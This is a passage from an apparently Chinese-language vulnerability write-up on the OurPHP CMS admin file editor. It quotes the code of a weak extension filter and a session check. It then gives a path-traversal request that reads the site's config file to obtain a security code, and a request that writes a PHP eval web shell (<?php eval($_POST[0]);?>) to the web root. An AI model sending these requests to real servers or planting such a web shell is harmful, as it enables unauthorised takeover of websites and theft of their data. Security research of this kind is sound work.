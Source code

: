 没法写马。但是如果进入的是else，就是没什么用的过滤，可以轻松写马：

```php
            if(stristr($md[0],".asp") || stristr($md[0],".aspx") || stristr($md[0],".jsp") || stristr($md[0],".htaccess") || stristr($md[0],".ini") || stristr($md[0],".user.ini"))
```

因此需要给`$_SESSION['ourphp_out']`赋值。看一下这个的由来，是在当前这个php文件的前面：

```php
$v = (empty($_GET['validation']))? "0" : $_GET['validation'];
$c = (empty($_GET['code']))? "0" : $_GET['code'];
pw($v,$c);
if(isset($_GET['out'])){
    unset($_SESSION['ourphp_out']);
}
```

然后是`pw`函数：

```php
function pw($a,$b)
{
    global $db,$ourphp;
    session_start();
    if ($a == $ourphp['validation'] && $b == $ourphp['safecode']){
         
        $_SESSION['ourphp_out'] = "ourphp";
        
    }else{

        if(empty($_SESSION['ourphp_out']))
        {
            include 'ourphp_checkadmin.php';

        }else{

            session_start();

        }

    }
}
```

需要`if ($a == $ourphp['validation'] && $b == $ourphp['safecode']){`。前一个登录后台的时候需要，既然目前是在后台的模板功能上，因此前一个已经知道了，后一个的话就需要利用到上面的任意文件读取，读一下配置文件：

```php
http://www.ourphp331.com/client/manage/ourphp_filebox.php?path=../../config/ourphp_config.php&edit
```

就可以得到了，这样就可以成功写马：

```php
http://www.ourphp331.com/client/manage/ourphp_filebox.php?path&ok&code=TW3fJCk9hqwwUBfcKnFbgpHxQqjRQE1dk9hqww&validation=1

code=<?php eval($_POST[0]);?>&md=../../1.php
```
